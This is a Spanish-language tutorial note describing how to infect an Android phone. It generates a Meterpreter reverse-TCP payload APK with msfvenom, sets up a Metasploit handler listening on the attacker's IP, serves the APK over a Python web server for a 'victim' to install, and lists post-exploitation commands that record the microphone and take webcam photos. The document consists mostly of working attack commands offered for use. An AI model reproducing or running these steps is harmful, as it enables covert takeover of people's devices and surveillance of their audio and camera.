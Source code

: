 # Primeros pasos

Vamos a encontrarnos con 5 pasos que tendremos que seguir para infectar un dispositivo Android:

1. Se genera una aplicación Android infectada.
2. Desplegamos el centro de control.
3. Se distribuye el malware en un sitio web.
4. La víctima descarga, instala y ejecuta la aplicación.
5. El malware toma control del dispositivo víctima.

# 1. Se genera una aplicación Android infectada

Vamos a utilizar la herramienta [[Msfvenom]]:

`msfvenom -p android/meterpreter/reverse_tcp LHOST=ourIP LPORT=puerto R > name.apk`

Creamos el payload y el resultado lo metemos en "name.apk".

# 2. Desplegamos el centro de control

1. Ejecutamos el siguiente comando para abrir el metasploit framework (la estación de trabajo, por así decirlo, dónde vamos a configurar las cosas):

> `msfconsole -q`

2. El siguiente módulo se encargará de recibir las conexiones externas ("subimos" el payload para configurarlo):

> `use exploit/multi/handler`

3. Para configurarlo, tenemos que escribir el path:

> `set payload android/meterpreter/reverse_tcp`

4. Lo configuramos:

> `options`

5. En "payload options", puede que nos falte el LHOST:

> `set lhost ourIP`

6. Lanzamos el comando:

> `run`

Ya estamos en escucha.

# 3. Se distribuye el malware en un sitio web

Para este caso, vamos a usar un servidor python:

> `python3 -m http.server`

# 4. La víctima descarga, instala y ejecuta la aplicación

Nos metemos desde el teléfono víctima, y ya tendríamos todo hecho.

Para ver lo que podemos hacer, escribimos `help` y nos saldrá una larga lista con todas las opciones disponibles.

Algunas de las más interesantes son:
- `record_mic -d 10`: captura 10seg de audio.
- `check_root`: comprueba si el teléfono está rooteado (si lo está, podemos ir a dónde queramos en el dispositivo).
- `webcam_list`: lista de todas las cámaras que hay en el dispositivo.
- `webcam_snap`: hacer una fotografía.
	- `webcam_snap -i 2`: haz una fotografía desde la cámara 2.
